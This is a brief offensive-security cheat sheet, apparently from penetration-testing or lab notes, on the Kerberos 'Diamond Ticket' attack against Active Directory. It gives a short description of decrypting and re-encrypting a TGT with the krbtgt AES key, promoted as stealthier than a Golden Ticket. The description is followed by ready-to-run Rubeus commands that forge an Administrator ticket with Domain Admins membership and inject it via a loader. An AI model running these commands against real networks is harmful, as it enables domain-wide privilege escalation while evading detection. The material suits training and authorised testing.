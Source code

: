 # Diamond Ticket

A diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account which makes it less detectable. Diamond Ticket is more about repackaging than forging. It’s a lot more OpSec safe than Golden Ticket.

## Repackage the Ticket

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># With user password
</strong><strong>Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS /show /ptt
</strong><strong>
</strong><strong># With domain users
</strong>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args diamond /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /enctype:AES256 /krbkey:&#x3C;aes_hash> /ticketuser:Administrator /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt /tgtdeleg
</code></pre>


